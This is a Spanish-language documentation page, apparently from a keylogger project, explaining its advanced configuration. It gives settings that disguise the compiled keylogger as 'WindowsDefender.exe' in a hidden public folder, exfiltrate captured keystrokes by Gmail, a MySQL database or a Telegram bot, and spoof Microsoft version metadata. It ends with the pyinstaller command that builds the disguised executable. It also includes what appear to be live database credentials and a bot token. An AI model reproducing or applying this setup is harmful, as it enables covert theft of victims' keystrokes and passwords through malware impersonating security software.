 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py
# ***************************************   ZONA CUSTOM AVANZADA  ***********************************

# NOTA:| Solo Cambie éstas variables si sabe      |
#      | lo que está haciendo, en caso contrario  |
#      | el Keylogger no funcionará correctamente |

def GetNameKey():                   # Retorna el nombre del Keylogger compilado *.EXE
    return "WindowsDefender.exe"    # este archivo debe tener el mismo nombre "WindowsDefender.py"  
def GetPathOcult():                 # Path de la carpeta donde se ocultará el Keylogger
    return "C:\\Users\\Public\\Security\\Windows Defender\\"
def logKeyPath():   # Ruta del registro de teclas.
    # Ruta donde se guardará temporalmente el Registro de teclas
    return "C:\\Users\\Public\\Security\\Settings\\"
def LogName():  # Es el nombre que tendrá el registro de teclas.
    return "reg.k"             # <= Opcional, cambie de nombre al archivo 
def FilePath():
    return GetPathOcult()+GetNameKey()  # <No cambiar>

# ************************************  FIN ZONA CUSTOM AVANZADA   *********************************



# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************


# ************ Zona Gmail ************* 
def emailP():# Correo de envío [Primaria]                    
    return "correo1@gmail.com"  # <<== Cambia éste correo
def passP():                    # <<== Contraseña del correo
    return "contra1"
def emailS():# Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
    return "correo2@gmail.com"  # <<== Cambia éste correo
def passS():                   
    return "pass2"              # <<== Contraseña del correo 

def ReceiveE():#Correos que recibirán el registro de teclas.
    #return ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"]   # MultiCorreo
    return ["CorreoReceptor@gmail.com"]                                         # MonoCorreo
# ************ End Zona Gmail ************* 

# ************ Start Zone DATABASE ************* 
# Nota: los datos de la base de datos son reales y publicas, solo para pruebas. 
def DB_HOST():
    return "bh1g5gnxzw2igrvui8hq-mysql.services.clever-cloud.com"   # Host
def DB_USER():
    return "udwlsyrbtldkznqo"                                       # Usuario de la base de datos
def DB_PASS():
    return "OR2i2dfdgWek0UDiAv4f"                                   # Contraseña de la Base de Datos
def DB_NAME():
    return "bh1g5gnxzw2igrvui8hq"                                   # Nombre de Base de datos
def DB_PORT(): 
    return "3306"                                                   # Opcional en algunos casos

# ************ End Zone DATABASE ************* 
def SendMode():
    return 2    # 0 = Gmail
                # 1 = DataBase              # Solo se puede usar una opción
                # 2 = TelegramBot
                
                


def timeSend(): # Tiempo de envío perzonalizado
    return 1 #Minutos                 <= Escoja su tiempo en minutos

# ************ Zone Telegram *************     
def ID():
    return 831756903            # <=  ID de chat telegram [Nota] no lo coloque entre comillas

def Token():
    return "1159435940:AAHKZLqDuuk4XBYHUx2GmQei0-RoRvis2v8"    # Token del Bot del Telegram

# ************ Zona Telegram ************* 

# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    ![Imagen1](https://i.imgur.com/wGTfC4T.png)
    ![Imagen2](https://i.imgur.com/Txt3QFS.png)





    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````